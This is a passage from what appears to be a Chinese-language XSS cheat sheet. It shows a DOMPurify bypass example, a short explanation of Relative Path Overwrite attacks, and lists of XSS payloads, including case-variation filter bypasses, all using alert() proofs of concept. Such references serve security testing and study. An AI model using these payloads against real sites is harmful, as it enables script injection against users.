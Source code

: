         <script type="text/javascript">
        var d= atob('<?php echo $msg; ?>');
        var cleanvar = DOMPurify.sanitize(d);
        document.write(cleanvar);
        </script>

    </body>
    </html>


payload

    <div data-role=popup id='-->
    &lt;script&gt;alert(1)&lt;/script&gt;'>
    </div>

#### RPO(Relative Path Overwrite)

RPO(Relative Path Overwrite) 攻击又称为相对路径覆盖攻击，依赖于浏览器和网络服务器的反应，利用服务器的 Web 缓存技术和配置差异。

## Payload

### 常用

- ``<script>alert(/xss/)</script>``
- ``<svg onload=alert(document.domain)>``
- ``<img src=document.domain onerror=alert(document.domain)>``
- ``<M onmouseover=alert(document.domain)>M``
- ``<marquee onscroll=alert(document.domain)>``
- ``<a href=javascript:alert(document.domain)>M</a>``
- ``<body onload=alert(document.domain)>``
- ``<details open ontoggle=alert(document.domain)>``
- ``<embed src=javascript:alert(document.domain)>``

### 大小写绕过

- ``<script>alert(1)</script>``
- ``<sCrIpT>alert(1)</sCrIpT>``
- ``<ScRiPt>alert(1)</ScRiPt>``
- ``<sCrIpT>alert(1)</ScRiPt>``
- ``<ScRiPt>alert(1)</sCrIpT>``
- ``<img src=1 onerror=alert(1)>``
- ``<iMg src=1 oNeRrOr=alert(1)>``
- ``<ImG src=1 OnErRoR=alert(1)>``
- ``<img src=1 onerror="alert(&quot;M&quot;)">``

- ``<marquee onscroll=alert(1)>``
- ``<mArQuEe OnScRoLl=alert(1)>``
- ``<MaRqUeE oNsCrOlL=alert(1)>``

### 各种alert
